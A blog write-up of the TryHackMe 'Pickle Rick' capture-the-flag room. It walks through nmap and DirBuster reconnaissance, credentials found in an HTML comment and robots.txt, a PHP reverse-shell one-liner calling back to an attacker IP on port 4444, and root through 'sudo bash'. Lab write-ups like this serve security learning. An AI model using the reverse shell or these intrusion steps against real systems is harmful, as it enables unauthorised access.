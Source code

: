 ```yaml
---
title: "Tryhackme's Pickle Rick Writeup"
description: "A write-up for the Pickle Rick challenge in TryHackMe"
pubDate: "Jul 04 2025"
tags: ["TryHackMe", "OWASP", "Hacking", "Writeup"]
---
```

## Introduction

Today I will be detailing my journey into breaking into the Pickle Rick machine from TryHackMe.com

Before reading my breakdown, I highly recommend you attempt it for yourself here: [Pickle Rick](https://tryhackme.com/room/picklerick)
With that out of the way, let's get started.

## Reconnaissance

The very first thing one should do when starting a new challenge room is an nmap scan of the app so we can start figuring out some attack vectors.

I performed a simple nmap scan with the following command:

```bash
sudo nmap -sS TARGET


```
My initial scan revealed two open ports:

|PORT   |STATE |SERVICE |
|-------|------|--------|
|22/tcp | open | ssh    |
|80/tcp | open | http   |

Since we have an open http port and the challenge itself did mention exploiting a web server, it seemed like the next logical step would be to plug the IP address into a web browser to see if we can figure out some attack vectors from the website.

![Screen capture of the web server](/res/blog/en/pickle-rick/figure1.png)

At first glance nothing is really going on in this server, but after taking a look at the source code, we can find a single username.

```html
<!DOCTYPE html>
<html>
    <head>...</head>
    <body>
        <div class="container" >...</div>
        <!--
            Note to self, remember username!
            Username: R1ckRul3s
          -->
    </body>
</html>
```

Ok! We have our username!

:::callout{.blue}
At this point in the reconnaissance, I figured I could try to SSH into the machine with the username by brute-forcing the password.
This did not work, but it did send me into a "learning-how-SSH-works" rabbit hole that lasted a full day.
:::

Now we have run out of things to explore with what we know of the machine, so it's time to do some more reconnaissance.

This time, we will use DirBuster to enumerate all pages in the web app.

:::callout{.red}
Here I made the mistake of not really understanding how BirBuster worked, and not taking the time to google a good way to use it, resulting in me
missing some very important directories (namely login.php)
I ended up finding it after just copying a tutorial on DirBuster off YouTube.
:::

The DirBuster program returns a good amount of directories, but most give a forbidden 403 response. These are the ones that didn't

- /assets
- /assets/bootsrap.min.js
- /denied.php
- /index.html
- /login.php
- /portal.php
- /robots.txt
- /icons/small

After visiting each and every one, these were the interesting ones:
- /login.php (Contains a login form where we can plug in our credentials)
- /robots.txt (Contains a string that is likely to be a password)

This is starting to get interesting!

## Exploitation

So we have a username: R1ckRul3s.
And a password: Wubbalubbadubdub.

Great, once we plug them in on /login.php, we are sent to /portal.php, where we can input commands.

After experimenting a bit with the commands, two things became apparent.
1. One of the flags is right there! (ls)
2. The most useful commands don't work! (cat ingredient.txt)

Here is where having some good resources becomes incredibly helpful. In order to solve this challenge, I just visited my favorite [reverse shell cheat sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and stole a command.
The command that got me my shell was

```shell
php -r '$sock=fsockopen("MY_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you're going to grab it, just replace MY_IP with, well, your IP.

After getting the first flag and exploring a bit inside the machine, I managed to find the second flag.
But at this point I explored every inch of the machine I __had access to__, and I still couldn't find the third flag.
We need to go deeper.

## Going deeper (privilege escalation)

This time, privilege escalation was a bit of a joke. All I did was `ls /bin` and I compared each binary with [the GTFOBins repository](https://gtfobins.github.io/) to find one that let me escalate into root. It didn't take long.

The command that got me root ended up being
```bash
sudo bash
```
After that I found the third flag inside /root, beating the machine.

## Conclusion
This was a pretty fun, beginner-friendly challenge that let me practice my skills while always making the intended path quite obvious. Definitely recommend.
